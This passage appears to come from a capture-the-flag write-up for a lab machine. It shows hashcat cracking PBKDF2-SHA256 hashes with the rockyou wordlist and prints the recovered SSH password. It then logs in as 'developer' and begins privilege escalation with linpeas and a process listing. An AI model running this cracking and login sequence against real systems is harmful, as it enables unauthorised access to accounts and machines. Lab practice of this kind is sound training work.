 
### ``cat hashes.txt``

```
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:Es/JE20QUDJIL33w/jbEiQ==:XljpYwTwRmlPyxK7uNhJXHy5cViBgtrZAFJ3EZct+tUWjDRIVLaK8QVisiOvRhhOf6M=
```

now crack it using ``hashcat``

```
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```
now ``show``

```
hashcat -m 10900 hashes.txt --show
```

``found``

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```



![image](https://github.com/user-attachments/assets/189472a7-0fbf-48ba-b5ef-b5f55e98255c)

> [!warning]
> ### ssh password : **``25282528``**


---

> ## connect using ``ssh``

```
ssh developer@10.10.11.55
```

> ## prvillage esc

after run linpeas found 

![image](https://github.com/user-attachments/assets/97793429-cabf-44ac-8b9a-737ab837dd09)



```bash
ps aux
```

![image](https://github.com/user-attachments/assets/c3dda3e6-89a2-42d0-8df3-907682393fc5)

```bash
/usr/bin/python3 /opt/app/app.py
```
